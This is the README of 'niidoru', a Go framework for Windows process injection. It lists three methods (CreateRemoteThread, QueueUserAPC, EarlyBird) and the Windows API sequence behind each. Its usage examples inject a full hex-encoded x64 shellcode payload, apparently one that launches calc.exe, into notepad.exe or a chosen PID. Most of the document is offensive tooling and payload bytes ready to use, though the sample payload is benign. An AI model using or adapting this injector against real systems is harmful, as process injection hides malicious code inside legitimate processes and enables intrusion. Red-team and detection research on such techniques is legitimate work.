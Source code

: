 # niidoru

Framework for Process Injection using Go.

```
go run . -m <METHOD> [ -p <PID> | -n <PROCESS_NAME> ] [ -h HEXADECIMAL_PAYLOAD ]
```
- -m (Mandatory): Process injection method.
    - *-m 1*: **Method 1** or **CreateRemoteThread** method (OpenProcess + VirtualAllocEx + WriteProcessMemory + CreateRemoteThread + CloseHandle)
    - *-m 2*: **Method 2** or **QueueUserAPC** method (OpenProcess + VirtualAllocEx + WriteProcessMemory + OpenThread + QueueUserAPC + CloseHandle)
    - *-m 3*: **Method 3** or **EarlyBird** method (CreateProcess + VirtualAllocEx + WriteProcessMemory + VirtualProtectEx + QueueUserAPC + ResumeThread + CloseHandle)

- -p (Optional):  Process ID or PID. Examples: 1234

- -n (Optional):  Process name. Example: notepad.exe

- -h (Optional):  Hexadecimal payload. It can be in the format "\x50\x51\x52" or "505152". Default: Payload to pop calc.exe 

<br>

------------------------------

## Examples

Process injection using CreateRemoteThread method, targeting a notepad.exe process and with a payload in hexadecimal format with "\x":  

```
go run . -m 1 -n notepad.exe -h \x50\x51\x52\x53\x56\x57\x55\x6A\x60\x5A\x68\x63\x61\x6C\x63\x54\x59\x48\x83\xEC\x28\x65\x48\x8B\x32\x48\x8B\x76\x18\x48\x8B\x76\x10\x48\xAD\x48\x8B\x30\x48\x8B\x7E\x30\x03\x57\x3C\x8B\x5C\x17\x28\x8B\x74\x1F\x20\x48\x01\xFE\x8B\x54\x1F\x24\x0F\xB7\x2C\x17\x8D\x52\x02\xAD\x81\x3C\x07\x57\x69\x6E\x45\x75\xEF\x8B\x74\x1F\x1C\x48\x01\xFE\x8B\x34\xAE\x48\x01\xF7\x99\xFF\xD7\x48\x83\xC4\x30\x5D\x5F\x5E\x5B\x5A\x59\x58\xC3
```

Process injection using QueueUserAPC method, targeting a process with PID 1234 and with a payload in hexadecimal format without "\x":

```
go run . -m 2 -p 1234 -h 505152535657556A605A6863616C6354594883EC2865488B32488B7618488B761048AD488B30488B7E3003573C8B5C17288B741F204801FE8B541F240FB72C178D5202AD813C0757696E4575EF8B741F1C4801FE8B34AE4801F799FFD74883C4305D5F5E5B5A5958C3
```

Process injection using EarlyBird method, spawning a new notepad.exe process and with the default payload:

```
go run . -m 3 -n c:\windows\system32\notepad.exe 
```

![img1](https://raw.githubusercontent.com/ricardojoserf/ricardojoserf.github.io/master/images/niidoru/Screenshot_1.png)

<br>

------------------------------

## Using the binary

Compile the executable file:

```
go build
```

You can use the same commands replacing "go run ." with "niidoru.exe":

``` 
niidoru.exe -m <METHOD> [ -p <PID> | -n <PROCESS_NAME> ] [ -h HEXADECIMAL_PAYLOAD ]
```
